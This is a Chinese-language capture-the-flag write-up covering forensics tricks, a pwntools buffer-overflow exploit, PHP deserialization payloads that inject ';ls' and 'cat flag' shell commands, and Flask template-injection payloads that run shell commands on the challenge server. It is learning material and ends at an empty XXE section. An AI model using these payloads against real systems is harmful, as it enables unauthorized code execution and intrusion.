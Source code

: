 # MyFirstCTF

隨意紀錄一下比賽學到的知識與技巧，只紀錄印象較深刻的題目

## forensic

原圖放在forensic目錄

### 0x01

有一張用binwalk看一下 發現圖片中有另外一張圖片

> dd if=`input_file` of=`output_file` skip=`offset_size` bs=1

即可拿到圖片

### 0x02

用mac看來看去看不出端倪 結果用windoes 右鍵內容 flag藏在註解裡面

### 0x03

pdf裡面藏白色文字 全選起來用editor解答

## Pwn

### 0x01 (BOF)

有一點久沒寫exploits生疏了 這題順便紀錄一下

先用gdb info func

看到一個可疑函式 位置在`0x004006b6`

利用BOF讓ret跳轉到0x004006b6


![bof](https://i.imgur.com/vLsNCR9.png)

```python
from pwn import *

r = remote('140.110.112.29',2114)

print(r.recvline())

playload = "A"*56 + p64(0x004006b6)

r.send(playload)

r.interactive()

```


### 0x02 (math)

要在60秒內解完100題數學題 簡單的考你會不會寫程式跟使用pwntools而已

```python

from pwn import *
r = remote('140.110.112.29',5119)
r.recvline() #Can you help us?
r.recvline()


print(r.recvline())

for i in range(100):
	print(r.recvline())

	s = r.recvline()

	one = s.split('?')
	print(one)
	two = one[1].split('=')
	print(two)

	if(int(one[0]) + int(two[0]) == int(two[1])):
		print('+')
		r.sendline('+')
	elif(int(one[0]) - int(two[0]) == int(two[1])):
		print('-')
		r.sendline('-')
	elif(int(one[0]) * int(two[0]) == int(two[1])):
		print('*')
		r.sendline('*')

print(r.recvline())

```

## Web

### 0x01 (session)

用brup抓包

觀察提示的使用者 clara 的封包

=PZge c JryZ l TvNv a Fbgs r eBYt a

只是使用者名稱混雜一些字元

於是把clara的部分admin即可

改完後 `=PZgeaJryZdTvNvmFbgsieBYtn`

requestt出去就拿到flag了

### 0x02 (serialize)

將`__wakeup`中的this改成想要執行的指令(wakup函式在反序列化時一定會執行)

```php
<?php

class MyFirstCTF {
    protected $test = "CTF";
    function __wakeup()
    {
        // print "Wake up yo!<br>";
        // system("echo ".$this->test);
    }
}
$obj = new MyFirstCTF();
$obj->test=";ls";
$ser = serialize($obj);

printf($ser);


// $input = $_GET['str'];
// $kb = unserialize($input);
?>
```
print出來的字串是`O:10:"MyFirstCTF":1:{s:4:"test";s:3:";ls";}`

但是丟出去之後沒反應

猜測應該是protected的關係

[參考這篇文章](https://www.cnblogs.com/Mrsm1th/p/6835592.html)

所以要加 `\00*\00` 並且加上3(長度) 變成 `O:10:"MyFirstCTF":1:{s:7:"%00*%00test";s:3:";ls";}`

噴出 `Th1s_1S_f1ag__________________y0 index.html index.php`

再丟一波 `O:10:"MyFirstCTF":1:{s:7:"%00*%00test";s:37:";cat Th1s_1S_f1ag__________________y0";}`

解答

文章重點

不同類型變數序列化的值不一樣 但是看起來沒差 以protected 因為是null byte 所以要自己加 '\00*\00' 長度多3
```
private的参数被反序列化后变成 \00test\00test1 
public的参数变成 test2   p
rotected的参数变成 \00*\00test3 
```

### 0x03 (SSTI)

從網頁完全看不出是GET哪個變數

看了幾篇教學是用name當範例

於是

140.110.112.29:1008?name=123

結果有反應(通靈ㄏㄏ)

先確定是用{{}}來印出變數 (每一種模板不同)

140.110.112.29:1008/?name={{7*7}}

140.110.112.29:1008?name={{request.environ}}

發現是flask

於是

`http://140.110.112.29:1008/?name={{ config['RUNCMD']('ls -alh',shell=True) }}`

`http://140.110.112.29:1008/?name={{ config['RUNCMD']('cat flag',shell=True) }}`

[參考文章](https://hellohxk.com/blog/ssti/)

### 0x04 (XXE)
